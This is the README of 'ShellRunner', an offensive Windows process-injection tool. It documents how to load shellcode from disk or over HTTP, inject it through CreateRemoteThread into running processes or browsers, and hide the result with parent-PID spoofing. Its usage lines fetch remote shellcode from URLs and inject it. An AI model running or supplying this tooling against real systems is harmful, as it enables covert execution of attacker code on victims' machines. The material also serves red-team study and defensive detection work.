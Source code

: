 # ShellRunner

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Runner Help:
    Usage: Runner.exe [options]
    Example: Runner.exe targ=http://fun/targ.bin form=bin meth=simple pid=1000
    Example: Runner.exe targ=C:\path\to\targ.b64 form=b64 meth=simple pid=self
    Example: Runner.exe targ=\\some\share\path\to\targ.b64 form=b64 meth=simple pid=explorer
    Example: Runner.exe targ=https://fun/targ.bin parent=1000 spawn=C:\path\to\custom.exe
    Example: Runner.exe targ=https://fun/targ.bin parent=explorer spawn=notepad.exe
Defaults:
    meth => simple
    form => bin
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever. There is an additional alias called `browser` that attempts to first inject into the user's default browser and then blindly checks for running chrome and IE instances.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable. The spawn argument also has a browser alias that looks for common brower executables.

## Known Issues

- cmd.exe may not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
